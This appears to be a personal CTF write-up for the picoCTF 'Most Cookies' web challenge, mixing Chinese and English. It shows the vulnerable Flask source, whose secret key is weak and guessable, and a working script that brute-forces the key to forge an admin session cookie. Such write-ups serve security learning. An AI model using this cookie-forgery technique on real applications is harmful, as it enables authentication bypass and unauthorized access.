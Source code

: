 ```yaml
---
title: PicoCTF - Most Cookies
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - Most Cookies
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Python Flask session 學習心得](https://vocus.cc/article/634c1c7efd89780001237de9)
> 在Flask將資料儲存在session這個object裡面時，可看成是儲存在client端，因為資料其實是存在web server，每次新增內容到session就會新增一個新的cookie(cryptographically-signed cookies)，並透過secret_key做簽章。需注意的是這所謂的「secret_key」並不是用於加密(切勿儲存機密資料)，而是用來做數位簽章確認資料的完整性，簡單說是每個人都可以知道cookie裡面的資料，但只有server知道cookie是否被串改，如果被串改就無法登入該帳戶。

## Source code
:::spoiler Source Code
```python=
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()


```
:::
## Recon
這一題看起來很簡單，我一開始也想說只要用Burp的intruder爆破name就好，不過看了一下sauce，發現他還有一個驗證機制，就是判斷cookie的value要是admin，但看了一下cookie的形式發現有點類似JWT的感覺`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZJEZ8A.b5j77V6nA0V6dzYvM_hg3yYRgJc`(當然它不是JWT只是形式有點像)，尤其是這學期修了CNS，所以對JWT直覺有點難搞，果不其然，在sauce的第7行有設定`secret_key`當作session簽章的依據，然後在`/display`的地方進行驗證
1. `name`參數要有值且必須是`cookie_names` list的其中一種
2. session的`very_auth`的value一定要是admin
3. session的signature也要forge

## Exploit - Brute Force
```python=
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
	def get_signing_serializer(self, secret_key):
		if not secret_key:
			return None
		signer_kwargs = dict(
			key_derivation=self.key_derivation,
			digest_method=self.digest_method
		)
		return URLSafeTimedSerializer(secret_key, salt=self.salt,
		                              serializer=self.serializer,
		                              signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.loads(cookieValue)

def encodeFlaskCookie(secret_key, cookieDict):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
	for name in cookie_names:
		session = {}
		session["very_auth"] = "admin"
		cookie = encodeFlaskCookie(name, session)
		r = requests.get("http://mercury.picoctf.net:6259/display", cookies={"session":cookie}, allow_redirects=False)
		if "picoCTF" in r.text:
			print(r.text)
			break
```
## Reference
[picoCTF 2021 Most Cookies](https://youtu.be/8DrqOFr_SV8)
[manageFlaskSession.py source code](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)
[Python Web Flask — 如何透過Form取得資料](https://medium.com/seaniap/python-web-flask-如何透過form取得資料-7a63ebf9ff1f)
[[Flask教學] Flask Session 使用方法和介紹](https://www.maxlist.xyz/2019/06/29/flask-session/)
[Most Cookies - Write up 1](https://picoctf2021.haydenhousen.com/web-exploitation/most-cookies)
[Most Cookies - Write up 2](https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Web%20Exploitation/Most%20Cookies/MostCookies.md)